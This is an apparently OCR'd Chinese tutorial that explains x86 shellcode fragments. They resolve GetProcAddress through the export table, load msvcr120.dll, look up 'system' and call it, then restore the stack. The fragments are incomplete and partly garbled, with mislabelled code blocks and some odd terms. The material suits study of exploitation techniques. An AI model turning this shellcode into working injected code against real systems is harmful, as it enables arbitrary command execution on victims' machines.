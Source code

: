 ```asm
					mov [ebx-4], eax;//GetProcAddress的地址
```
这主要通过搜索，搜索得到“GetProcAddress”这个名字，然后通过这个名字根据导出表的结构由北桥查询得到GetProcAddress的地址，并将其保存在数据区的getProcAdd里面。

然后通过GetProcAddree获取LoadLibraryExa的地址：

```q
sub ebx,28
				push ebx
				add ebx,28
				push [ebx-8];
				call [ebx-4];
			mov [ebx-12], eax;//LoadLibrary的地址
再通过LoadLibraryExa载入msvcr120.dll这个动态链接库：
				push 0x00000010
					push 0x00000000
					
					sub ebx,76
					push ebx
					add ebx,76
					//push eax
				call [ebx-12]

					mov [ebx-88], eax;
```
	
其中ebx-76正是数据区中“msvcr120.dll”这个字符串的地址。这个库的句柄保存下来

接着得到system的地址：
```a
mov edx, eax
					sub ebx,60
					push ebx
					add ebx,60
					push edx
				call [ebx-4];//得到system的地址
mov [ebx-84], eax;
```


调用system函数：

```a
sub ebx,44
					push ebx
					add ebx,44
				call eax
```

恢复堆栈：
```a
					add esp, 400h
					pop ecx
					pop esp
					pop ebp
					pop edx

					pop esi
					pop eax
				pop ebx;
```
